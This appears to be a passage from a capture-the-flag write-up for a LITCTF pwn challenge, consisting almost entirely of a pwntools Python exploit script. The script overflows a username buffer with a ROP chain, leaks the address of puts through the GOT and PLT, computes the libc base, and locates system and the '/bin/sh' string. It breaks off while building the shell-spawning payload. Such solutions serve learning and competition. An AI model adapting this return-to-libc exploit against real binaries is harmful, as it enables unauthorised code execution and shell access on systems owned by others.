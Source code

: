 
## Exploit  
```py
#!/usr/bin/env python3

from pwn import *

elf = ELF("./uc_patched")
libc = ELF('libc6_2.39-0ubuntu8.4_amd64.so')
context.binary = elf
context.terminal = ['kitty','-e']

gdbscript = '''
b*main
b*0x00000000004012b9
c
'''

if args.REMOTE:
    p = remote('litctf.org',31779)
elif args.GDB:
    p = gdb.debug(elf.path, gdbscript=gdbscript)
else:
    p = process(elf.path)

pop_rdi = 0x0000000000401323
ret = 0x000000000040101a

def leak_value():
	payload = flat (
	pop_rdi,
	elf.got['puts'],
	elf.plt['puts']
)
	return payload

payload = leak_value()


main_addr = p64(elf.sym['main'])
main_addr_spam = cyclic(64) + main_addr + cyclic(24)
password =  main_addr_spam  +b'd0nt_57r1ngs_m3_3b775884\x00'


p.recvuntil(b'Enter username:')
p.sendline( password + cyclic(128-(len(password))) +b'LITCTF\x00'+ cyclic(33)+ payload )
p.recvuntil(b'Goodbye\n')

leak = p.recvline().strip()       
leaked_puts = u64(leak.ljust(8, b'\x00'))
print(hex(leaked_puts))

print('puts lib addr',hex(libc.sym.puts))

libc.address = leaked_puts - libc.sym.puts
print(hex(libc.address))

system_addr = libc.sym.system
binsh = next(libc.search(b'/bin/sh'))

def shellcode():
    payload = flat (
    pop_rdi,
```